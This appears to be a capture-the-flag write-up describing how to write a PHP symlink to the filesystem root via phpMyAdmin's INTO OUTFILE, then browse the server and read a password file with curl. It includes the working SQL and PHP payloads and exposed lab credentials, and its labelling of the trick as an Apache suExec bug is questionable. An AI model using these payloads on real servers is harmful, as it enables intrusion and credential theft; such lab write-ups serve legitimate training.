


# Writeup 3 - suExec

## Index:

- [What does this method consist of?](#what-does-this-method-consist-of)
- [1. Access to phpMyAdmin](#1-access-to-phpmyadmin)
- [2. Injecting the symlink via suExec](#2-injecting-the-symlink-via-suexec)
- [3. Navigating the file system](#3-navigating-the-file-system)
- [4. Read access demonstration](#4-read-access-demonstration)

## What does this method consist of?

During writeup1, we used phpMyAdmin to inject a webshell that allowed us to execute commands on the server. This method is a cleaner alternative that doesn't require command execution.

Instead of a webshell, we used the **suExec** vulnerability in Apache 2.2.22 to create a **symbolic link to the system root** and navigate the files directly from the browser without needing to execute commands.

**suExec** is an Apache feature that allows CGI and SSI programs to be executed under a different user than the web server. This version has a bug that allows us to create arbitrary symlinks from phpMyAdmin.

## Exploitation

### 1. Access to phpMyAdmin

We access phpMyAdmin just as we did in writeup1:

```
https://192.168.0.35/phpmyadmin/
```

Credentials:
- Username: `root`
- Password: `Fg-'kKXBj87E:aJ$`


### 2. Injecting the symlink via suExec

Instead of the writeup1 webshell, we inject a PHP file that creates a **symbolic link `/`** to the system's root directory:

```sql
SELECT 1, '<?php symlink("/", "stuff.php");?>' INTO OUTFILE '/var/www/forum/templates_c/tosuexec.php'
```



Now we access the file so that it runs and creates the symlink:

```
https://192.168.0.35/forum/templates_c/tosuexec.php
```


### 3. Navigating the file system

The symlink `stuff.php` points to the system's root directory `/`. We can navigate through all the server's files directly from the browser:

```
https://192.168.0.35/forum/templates_c/stuff.php
```



We now have full access to the system root from the browser. We can see `bin/`, `etc/`, `home/`, `var/`, etc.

### 4. Read access demonstration

The important thing for this writeup is to demonstrate that we have read access to the entire file system.

We're going to read `/home/LOOKATME/password`, which is the entry point of the `writeup1` string:

```bash
curl -kL "https://192.168.0.35/forum/templates_c/stuff.php/home/LOOKATME/password"
lmezard:G!@M6f4Eatau{sF"
```
```bash
User: lmezard
Password:  G!@M6f4Eatau{sF"
```
From here we can continue the entire writeup1 chain — we find the FTP credentials of `lmezard` without having reated a webshell.